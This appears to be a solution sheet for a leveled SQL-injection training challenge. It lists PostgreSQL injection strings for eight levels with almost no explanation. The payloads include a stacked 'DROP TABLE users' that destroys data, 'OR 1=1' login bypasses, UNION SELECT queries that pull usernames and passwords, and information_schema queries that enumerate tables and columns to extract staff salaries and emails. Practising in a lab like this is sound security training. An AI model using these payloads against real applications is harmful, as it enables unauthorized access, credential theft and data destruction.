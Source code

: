 
> [!NOTE] Note
> The first `'` is not part of the injected text, it's just there for syntax highlighting.

# Level 1

```postgresql
'jane';--
```

# Level 2

```postgresql
''; DROP TABLE users;--
```

# Level 3

```postgresql
'' OR 1=1; --
```

# Level 4

```postgresql
'' OR 1=1 LIMIT 1;--
```

# Level 5

```postgresql
'' UNION SELECT password, username FROM users;--
```

# Level 6

```postgresql
'' UNION
SELECT salary FROM staff
WHERE firstname LIKE '%_reta%'
LIMIT 1 OFFSET 0;--
```

> [!NOTE]- Get table metadata
>1. Get table names
>```postgresql
>'' UNION
>SELECT table_name
>FROM information_schema.tables
>LIMIT 1 OFFSET 0;--
>```
>
>2. Get columns of table
>```postgresql
>'' UNION
>SELECT column_name
>FROM information_schema.columns
>WHERE table_name='staff'
>LIMIT 1 OFFSET 0;--
>```

# Level 7

```postgresql
'' UNION SELECT name, email, salary, employed_since FROM staff--
```

# Level 8

```postgresql
'' UNION
SELECT table_name
FROM information_schema.tables;--
```